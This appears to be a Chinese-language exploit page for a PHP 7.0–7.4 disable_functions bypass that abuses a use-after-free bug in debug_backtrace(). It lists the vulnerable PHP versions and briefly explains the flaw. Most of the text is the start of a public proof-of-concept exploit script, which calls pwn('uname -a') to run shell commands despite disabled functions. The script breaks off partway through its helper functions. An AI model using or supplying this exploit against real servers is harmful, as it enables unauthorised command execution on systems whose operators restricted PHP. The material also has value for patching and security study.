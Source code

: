 ### 使用条件：

Linux 操作系统

PHP 版本

> 7.0 - all versions to date
>
> 7.1 - all versions to date
>
> 7.2 - all versions to date
>
> 7.3 < 7.3.15 (released 20 Feb 2020)
>
> 7.4 < 7.4.3 (released 20 Feb 2020)

### 原理简述

该漏洞利用在debug_backtrace()函数中使用了两年的一个 [bug](https://bugs.php.net/bug.php?id=76047)。我们可以诱使它返回对已被破坏的变量的引用，从而导致释放后使用漏洞。

### 利用脚本

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
```